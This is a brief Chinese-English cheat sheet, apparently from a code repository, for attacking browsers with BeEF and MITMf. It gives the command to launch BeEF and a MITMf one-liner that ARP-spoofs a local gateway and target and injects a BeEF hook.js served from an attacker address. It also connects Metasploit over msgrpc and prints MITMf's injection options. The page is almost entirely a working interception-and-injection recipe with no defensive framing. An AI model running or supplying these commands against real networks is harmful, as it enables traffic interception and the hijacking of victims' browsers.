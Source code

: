 运行 beef: ` cd /usr/share/beef-xss && ./beef`

`python mitmf.py --spoof --arp -i eth0 --gateway 192.168.1.1 --target 192.168.1.114 --inject -–js-url http://192.168.1.110:3000/hook.js`

## with metasploite

连通性设置：

```
$ msfconsole
msf>load msgrpc Pass=abc123
```

### usage

```
usage: mitmf.py -i interface [mitmf options] [plugin name] [plugin options]

MITMf v0.9.8 - 'The Dark Side'

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit

MITMf:
  Options for MITMf

  --log-level {debug,info}
                        Specify a log level [default: info]
  -i INTERFACE          Interface to listen on
  -c CONFIG_FILE        Specify config file to use
  -p, --preserve-cache  Don't kill client/server caching
  -r READ_PCAP, --read-pcap READ_PCAP
                        Parse specified pcap for credentials and exit
  -l PORT               Port to listen on (default 10000)
  -f, --favicon         Substitute a lock favicon on secure requests.
  -k, --killsessions    Kill sessions in progress.
  -F FILTER [FILTER ...], --filter FILTER [FILTER ...]
                        Filter to apply to incoming traffic

Inject:
  Inject arbitrary content into HTML content

  --inject              Load plugin 'Inject'
  --js-url JS_URL       URL of the JS to inject
  --js-payload JS_PAYLOAD
                        JS string to inject
  --js-file JS_FILE     File containing JS to inject
  --html-url HTML_URL   URL of the HTML to inject
  --html-payload HTML_PAYLOAD
                        HTML string to inject
  --html-file HTML_FILE
                        File containing HTML to inject
  --per-domain          Inject once per domain per client.
  --rate-limit RATE_LIMIT
                        Inject once every RATE_LIMIT seconds per client.
  --count-limit COUNT_LIMIT
                        Inject only COUNT_LIMIT times per client.
  --white-ips IP        Inject content ONLY for these ips (comma seperated)
  --black-ips IP        DO NOT inject content for these ips (comma seperated)
  --white-domains DOMAINS
                        Inject content ONLY for these domains (comma seperated)
  --black-domains DOMAINS
                        DO NOT inject content for these domains (comma seperated)
```